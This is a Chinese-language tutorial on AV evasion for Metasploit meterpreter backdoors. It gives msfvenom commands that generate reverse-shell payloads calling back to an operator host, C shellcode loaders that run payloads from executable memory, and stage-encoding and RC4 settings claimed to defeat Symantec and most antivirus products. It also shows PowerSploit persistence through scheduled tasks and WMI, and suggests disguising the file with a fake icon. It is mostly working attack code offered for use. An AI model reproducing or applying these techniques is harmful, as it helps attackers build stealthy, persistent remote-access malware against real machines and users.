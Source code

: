 **Bypass AV meterpreter免杀技巧**
-------------------

0x01 meterpreter简介
------------------

MetasploitFramework是一个缓冲区溢出测试使用的辅助工具，也可以说是一个漏洞利用和测试平台，它集成了各种平台上常见的溢出漏洞和流行的shellcode，并且不断更新，使得缓冲区溢出测试变的方便和简单。
需要说明的是meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行help之后发现缺少命令，经常出现什么sending stager error，如果网络真的很差的话，可以选用stageless meterpreter。

（meterpreter网上的资料很多，drops上就有不少，我们就长话短说，介绍最有用的几个。）

0x02 生成后门
---------

在旧的metasploit中，生成payload是用msfpayload+msfencode，之后rapid7整合了这两个命令变成了msfvenom，并添加了更多的功能，下面是用msfvenom生成backdoor的实例。

    msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f exe > /root/Desktop/Green_m.exe

这样可以生成一个使用tcp协议反向连接到192.168.1.200的4444端口的meterpreter的后门。
这样生成的exe可以运行，但是会被杀掉。

0x03 生成shellcode免杀
------------------

长话短说，手动编译meterpreter并对shellcode进行编码就能绕过静态查杀，meterpreter本身就是直接加载进内存并且有编码，绕过动态查杀基本没问题，(当然你也可以使用veil-evasion，不过效果不怎么好)

    msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ lhost=192.168.1.200 lport=4444   -f c

上述命令生成在之前的基础上生成基于c语言格式的shellcode，通过e参数指定编码方式，i参数指定编码次数，b参数去除指定代码，一般是空代码或者错误代码，-f指定生成格式。

    unsigned char buf[] = 
    "shellcode is here";
    main()
    {
    	( (void(*)(void))&buf)();
    }

这种方式vc++6.0能够成功编译，但是vs编译会报错，可以换成

    main()
    {
    	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	memcpy(Memory, buf, sizeof(buf));
    	((void(*)())Memory)();
    }

还有很多其他的方法，这里就不一一测试了。

**友情提示：在实战情况下，免杀效果会根据编译器和系统环境而变化，可以多准备一些环境进行免杀工作。**

通过上述方法编译生成的exe可以绕过几乎100%杀软，包括360，卡巴斯基，小红伞等杀软。


0x04 选择payload进行免杀
------------------

上面生成shellcode的方式是针对杀软静态免杀的，接下来说到动态行为免杀。

在对市面上主流的杀软进行测试的过程中，发现symantec会在meterpreter回连成功，从metasploit里接受数据的时候报毒。

无论是自己手动编码编译还是msf自动生成的exe都会这样被报毒。

经过笔者自己测试，使用reverse_https等payload可以anti symantec。

    msfvenom -p  windows/meterpreter/reverse_https  lhost=192.168.1.200 lport=443   -f c

但是需要在metasploit设置

    set EnableStageEncoding true
    set stageencoder x86/fnstenv_mov
    set stageencodingfallback false

将控制端向被控制端发送的stage进行编码，从而绕过symantec的查杀。

同样，使用reverse_tcp_rc4也有同样的效果，而且不能设置stageencoder选项，更稳定更方便。

    msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=192.168.1.200 lport=4444 RC4PASSWORD=Green-m  -f c

利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮地下执行meterpreter。

这里做一个抛砖引玉的作用，其他payload的查杀效果需要各大黑客自己去测试。

0x05 meterpreter常驻的免杀
---------------------

常见的添加meterpreter 常驻的方法无非两种，

persistence和metsvc，这两种方法效果还是不错的，不过在面对杀软的时候无能为力，几乎100%被杀。

下面介绍几种能绕过杀软的添加自启动方法。

 - **1.使用exploit/windows/local/registry_persistence**

通过用户自己指定payload及编码方式，将shellcode添加到注册表，然后再利用powershell加载该shellcode，成功运行meterpreter。

由于加载的payload是由metasploit指定，每次都不一定一样，这个方法在面对大部分主流AV的时候简直强大，只要不监视注册表操作不限制powershell，几乎不会被杀。

同类型的还有其他payload，如exploit/windows/local/vss_persistence，exploit/windows/local/s4u_persistence，有的效果也不错，如添加计划任务启动的功能，但或多或少都有一些限制，总体说来不如上面讲到的方法。

 - **2.利用powershell**

powershell因为其特性，被很多杀毒软件直接忽视，因此用这个方法经常能达到出其不意的效果

其实这个方式和第一种原理都是一样，不过自定义的powershell脚本效果更佳。

这里可以利用一个工具powersploit，下面用它来示范一个简单的例子。

    Import-Module .\Persistence\Persistence.psm1
    
    $ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
    
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    
    Add-Persistence -FilePath .\Green_m.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose

其中Green_m.ps1是加载有payload的powershell脚本文件，你可以用msf生成一个加载meterpreter的ps1文件。

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f psh-reflection -o Green_m.ps1

当然你也可以选择不执行powershell文件而直接执行某个PE文件，可以通过将代码赋予变量来执行。

    $Green_m = { c:\windows\system32\notepad.exe }
    
    $ElevatedOptions =New-ElevatedPersistenceOption -PermanentWMI -AtStartup
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    Add-Persistence -ScriptBlock $Green_m -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $Us erOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1

powersploit还有其他非常有用的功能，有兴趣可以自己去github或者使用get-help查询。

 - **3.手动编写**

只要是工具用得太多都难免被AV发现，这个时候就需要手动编写自启动功能。

手动添加自启动，自删除，再改个图标后缀技能骗过杀软也能骗过人眼，扩展一下就是个大马，这里就不多说了。

0x06 总结
-------

meterpreter因为其简单多变的结构，强大的功能，在渗透中面对未知杀软环境的情况下效果不错。

***注：本文所做所有测试不保证完全有效，仅供参考。***

